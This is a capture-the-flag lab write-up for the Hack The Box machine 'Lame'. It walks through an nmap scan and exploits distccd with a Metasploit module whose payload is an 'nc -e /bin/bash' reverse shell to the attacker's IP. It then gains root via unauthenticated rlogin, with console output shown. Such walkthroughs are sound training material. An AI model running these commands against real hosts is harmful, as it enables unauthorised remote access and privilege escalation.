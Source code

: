 ```yaml
---
title: Hack The Box&#58; Lame
permalink: /HTB/Lame
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Lame_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhsot -l root`.
```
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~# 
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach 

## Failed Attack Vectors

